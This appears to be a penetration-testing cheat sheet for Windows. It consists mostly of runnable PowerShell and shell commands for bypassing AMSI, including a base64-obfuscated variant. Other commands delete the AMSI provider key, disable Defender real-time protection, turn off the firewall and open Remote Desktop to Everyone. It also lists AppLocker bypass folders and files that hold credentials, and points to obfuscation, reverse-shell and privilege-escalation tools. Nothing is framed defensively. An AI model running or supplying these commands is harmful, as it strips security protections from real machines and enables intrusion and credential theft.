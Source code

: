 #  Bypass Windows AMSI / AV Evasion
### Shell:
Bypass using commands in the shell
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

Set-MpPreference -DisableRealtimeMonitoring $true
```
### AMSITrigger.exe
Using [AMSITrigger.exe](https://github.com/RythmStick/AMSITrigger). This will show powershell triggers and help to modify the payload manually.
```powershell
AmsiTrigger.exe -i shell.ps1
```
### Invoke-Obfuscation
Using [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation). As it encodes the payload in numerous ways.
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTBLOCK <Payload>
OR
SET SCRIPTPATH <URL of payload>
```
### ThreatCheck
Using [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). We can find the bad chars and then edit it using `hexeditor` in linux to a new file to bypass the defender and AV. By default, the bad chars are at the bottom.
```powershell
ThreatCheck.exe -f Grunt.bin -e AMSI, Defender
```
### Hoaxshell
Using [Hoaxshell](https://github.com/t3l3machus/hoaxshell). We can bypass AV using the payload generated by Hoaxshell.
```powershell
./hoaxshell.py -s <LHOST>
```

# Disable real-time protection on Windows.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Turn Firewall off on Windows:
```bash
netsh advfirewall set allprofiles state off
```
# Remote Desktop Connection:
```bash
net localgroup "Remote Desktop Users" Everyone /Add
```

# Bypass Windows Applocker

- Location.

 `C:\Windows\System32\spool\drivers\color`
 
 - [applocker-bypas-checker.ps1](https://github.com/sparcflow/GibsonBird/blob/master/chapter4/applocker-bypas-checker.ps1) is a powershell script that returns folders for bypass applocker.

```powershell
  .\applocker.ps1
[*] Processing folders recursively in C:\windows
[+]  C:\windows\Tasks
[+]  C:\windows\tracing
[+]  C:\windows\System32\spool\drivers\color
[+]  C:\windows\tracing\ProcessMonitor
```

# Powershell command history

  `\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

# Users' passwords in base64 encoding.

  `C:\Windows\Panther\Unattend\Unattended.xml`

# Privilege Escalation

- Use [PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

   ```powershell
   . .\PowerUp.ps1
  Invoke-AllChecks
  ```
